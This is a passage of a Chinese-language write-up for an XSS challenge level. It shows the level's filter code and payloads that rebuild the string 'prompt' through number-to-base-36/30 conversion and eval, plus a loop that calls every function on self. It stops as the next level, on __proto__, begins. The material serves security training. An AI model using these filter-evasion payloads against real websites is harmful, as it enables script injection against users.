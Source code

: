 * * *

该题主要是利用toString()解答。eval可以直接执行字符串。如下：

```
parseInt("prompt",36); //1558153217

```

因此，

*   可以使用`eval((1558153217).toString(36))(1)`
    
*   还可以`eval(1558153217..toString(36))(1)`
    
*   还可以`eval(630038579..toString(30))(1)`
    

### 代码

```
function escape(input) {
    // in Soviet Russia...
    input = encodeURIComponent(input).replace(/'/g, '');
    // table flips you!
    input = input.replace(/prompt/g, 'alert');

    // ノ┬─┬ノ ︵ ( \o°o)\
    return '<script>' + input + '</script> ';
}

```

### 答案

32个字符通杀所有浏览器

```
eval(630038579..toString(30))(1)

// Hexadecimal alternative (630038579 == 0x258da033):
eval(0x258da033.toString(30))(1)

```

还有一种比较暴力的方法是，通过循环执行self里面的函数，来查找prompt执行(firfox下测试有效)

```
for((i)in(self))eval(i)(1)

```

Level 13
--------

* * *

这个题目涉及到js中的`__proto__`，每个对象都会在其内部初始化一个属性，就是`__proto__`，当我们访问对象的属性时，如果对象内部不存在这个属性，那么就会去`__proto__`里面找这个属性，这个`__proto__`又会有自己的`__proto__`，一直这样找下去。可以再Chrome控制台中测试：
